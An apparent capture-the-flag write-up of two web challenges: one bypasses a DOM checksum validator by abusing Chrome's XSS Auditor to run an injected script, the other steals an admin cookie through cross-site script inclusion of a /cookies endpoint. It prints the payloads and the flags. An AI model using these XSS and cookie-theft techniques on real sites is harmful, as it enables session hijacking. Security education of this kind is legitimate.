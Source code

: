 The `<script>alert('pwned')</script>` won't be executed because of the `DOMValidator.js` script:

```javascript
function checksum (element) {
	var string = ''
	string += (element.attributes ? element.attributes.length : 0) + '|'
	for (var i = 0; i < (element.attributes ? element.attributes.length : 0); i++) {
		string += element.attributes[i].name + ':' + element.attributes[i].value + '|'
	}
	string += (element.childNodes ? element.childNodes.length : 0) + '|'
	for (var i = 0; i < (element.childNodes ? element.childNodes.length : 0); i++) {
		string += checksum(element.childNodes[i]) + '|'
	}
	return CryptoJS.SHA512(string).toString(CryptoJS.enc.Hex)
}
var request = new XMLHttpRequest()
request.open('GET', location.href, false)
request.send(null)
if (checksum((new DOMParser()).parseFromString(request.responseText, 'text/html')) !== document.doctype.systemId) {
	document.documentElement.remove()
}
```

It calculates some sort document's hash and then compares it with the original. I haven't even looked into the code because I already knew an unintended solution for this one. 

The page wasn't setting any `X-XSS-Protection` header so the `XSS-Auditor` in Chrome 74 (that's the version the admin uses) is set to `mode=filter` so any reflected XSS will be filtered and not executed. 

So I appended the `xss=<script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.2/rollups/sha512.js">` parameter to the query so the `sha512.js` script will be filtered and the `DOMValidator.js` will crash. Hence, `<script>alert('pwned')</script>` will be executed.

![](https://i.imgur.com/gso11nh.png)

After sending that URL to the admin we get the flag: **actf{its_all_relative}**

# Cookie Monster
Once again, we've got a simple webpage with URL reporting functionality. After a quick inspection we see two endpoints `/getflag` and `/cookies`. When visiting `/cookies` our `cookies` are being displayed and it looks like `user_DE7aL1xDCe3BauCWqSVqg_0C5bu2078UgQHIqYsF2h0= 311`. That's a valid variable in JavaScript so by including this script on the prepared website 
```
<script src='https://cookiemonster.2019.chall.actf.co/cookies'></script>
```
and then read the window variable
```javascript
var name = Object.getOwnPropertyNames(window).filter(x=>x.indexOf('admin')!=-1)[0];
```
we get the admin's cookie `admin_GgxUa7MQ7UVo5JHFGLbqzuQfFFy4EDQNwZWAWJXS5_o=` and then the flag: **actf{defund_is_the_real_cookie_monster}**
